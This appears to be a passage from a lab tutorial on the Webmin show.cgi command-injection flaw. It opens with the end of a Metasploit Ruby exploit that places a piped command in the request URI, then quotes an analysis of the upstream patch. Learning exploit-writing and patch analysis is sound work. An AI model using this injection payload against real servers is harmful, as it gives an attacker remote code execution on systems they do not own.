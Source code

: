 ```ruby
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(rand(5) + 5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)


		if res and res.code == 200 and res.message =~ /Document follows/
			print_good "#{peer} - Payload executed successfully"
		else
			print_error "#{peer} - Error executing the payload"
			return
		end

	end

end
```  

I mean, basically the code sets some request headers, a cookie, and a body and sends a POST request. Once authenticated via the session id, the script sends another POST request to a different endpoint, which gives an attacker remote code execution. Our task is to rewrite this in Python.  

## **Understand the patch that was applied by the devs to mitigate this vulneratbility**

**The exploit patch on github**  
https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213  

**ChatGPT's explanation of the patch**  

file/lang/en:  

![](/thm-intro-poc-script/thm-intro-poc-script-github-1.png)  

This snippet contains a set of error messages and notifications that are likely used for displaying specific messages to the user in the Webmin interface. These messages inform the user about failed archive creation, restrictions on downloading archives, limitations on the directory size for archiving, invalid characters in paths, the requirement to cut or copy before pasting, and the unavailability of a copied file.  

file/show.cgi:  

![](/thm-intro-poc-script/thm-intro-poc-script-github-2.png)  

This snippet is a section of Perl code that appears to be handling a request to view a file in Webmin. Here's a breakdown of the key steps:

```  
`&ReadParse();` is likely a function call to read and parse the input parameters from the HTTP request.

`use POSIX;` imports the POSIX module, which provides access to various POSIX functions and constants.

`$p = $ENV{'PATH_INFO'};` retrieves the value of the PATH_INFO environment variable, which typically contains additional path information from the URL.

`($p =~ /^\s*\|/ || $p =~ /\|\s*$/ || $p =~ /\0/) && &error_exit($text{'view_epathinfo'});` checks if the path ($p) contains certain patterns that may indicate an invalid or malicious input. If any of the patterns match, it calls the error_exit function with the error message defined as $text{'view_epathinfo'}.

`if ($in{'type'}) { ... }` checks if the type parameter is supplied in the input. If present, it assigns its value to the variable $type.  

```